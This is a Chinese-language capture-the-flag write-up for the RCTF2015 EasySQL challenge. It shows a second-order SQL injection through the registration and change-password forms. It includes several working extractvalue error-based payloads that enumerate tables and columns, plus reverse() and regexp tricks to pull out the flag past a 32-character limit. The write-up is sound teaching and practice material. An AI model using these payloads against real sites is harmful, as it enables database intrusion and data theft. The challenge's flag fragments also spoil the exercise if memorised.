






# RCTF2015-EasySQL

一打开题目是一个登录界面和注册界面。

尝试注册username为admin的账号，提交时显示user exists用户已存在。

但是在登录界面怎么尝试sql注入都没办法，所以只能先注册个合法账号进去看看

发现有一个change password选项，也就是修改密码



猜测这里存在二次注入。返回注册页面我们这回注册一个这样的账号

```
username:admin'")#
```

然后再去修改密码页面，点击submit，出现报错信息，并且能够看出这里使用了双引号闭合

推测修改密码的源代码

```
update password='xxxx' where username="xxxx"
```



---

利用fuzz字典爆破username，注意在注册界面进行，查看过滤了哪些关键字

resoponse为invalid string的关键字是被过滤的关键字，Length为493的关键字为未被过滤的关键字，其中如 and 和 空格这样的关键字都被过滤了，extractvalue和updatexml这样的报错注入关键字未被注释，我们可以利用username进行报错注入了。

```
利用报错注入查看数据库的表名
admin"||extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)=database()),0x7e))#
```

发现三张表



```
猜测flag在flag表中，查询表flag中的列名
admin"||extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)='flag')))#
```

发现列名flag

```
获取flag的值
admin"||extractvalue(1,concat(0x7e,(select(flag)from(flag))))#
```

发现flag不在这里



---

相同的步骤访问表users

```
admin"||extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)='users')))#
```



发现表real_flag_1s_here，但是这里表名没有完全显示，因为**因为 extractvalue 和 updatexml最多只能显示32位数字**，**可以使用 reverse()函数，将报错回显的结果倒置**

然后获取flag

```
admin"||extractvalue(1,concat(0x7e,(select(real_flag_1s_here)from(users))))#
```

**发现查询结果超过1行，我们需要使用正则表达式来获取flag值。**



```
admin"||extractvalue(1,concat(0x7e,(select(real_flag_1s_here)from(users)where(real_flag_1s_here)regexp('^f'))))#

#flag{dd91996a-effb-485e-b30f-ff
```

然后还是只能显示32位字符，继续使用reverse函数，将倒置的部分翻转然后和前置部分连接即可

```
admin"||extractvalue(1,concat(0x7e,reverse((select(real_flag_1s_here)from(users)where(real_flag_1s_here)regexp('^f')))))#

#~}285fc057b8ff-f03b-e584-bffe-a6
```

利用sql语句将倒转部分复原

```
select reverse('~}285fc057b8ff-f03b-e584-bffe-a6');
```

连接不相同部分，得到flag
